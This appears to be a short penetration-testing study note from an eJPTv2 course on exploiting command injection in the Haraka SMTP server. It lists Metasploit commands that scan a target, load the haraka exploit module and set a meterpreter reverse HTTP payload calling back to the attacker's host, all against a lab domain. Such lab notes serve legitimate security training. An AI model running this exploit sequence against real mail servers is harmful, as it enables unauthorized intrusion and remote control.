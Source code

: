 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Linux Exploitation/Linux Exploitation]]"
---
```


# Exploiting a Vulnerable SMTP Server

- Communication protocol used for email transmission
- Haraka is an open source high performance SMTP server developed in Node.js
- It comes with a plugin for attachment processing
	- Vulnerable to command injection in versions prior to v2.8.9

## Demonstration

```bash
> db_nmap -sV -O <ip>
> use exploit/linux/smtp/haraka
> set SRVPORT 9898
> set email_to root@attackdefense.test
> set payload linux/x64/meterpreter_reverse_http
> set LHOST <my_ip>
> run
```
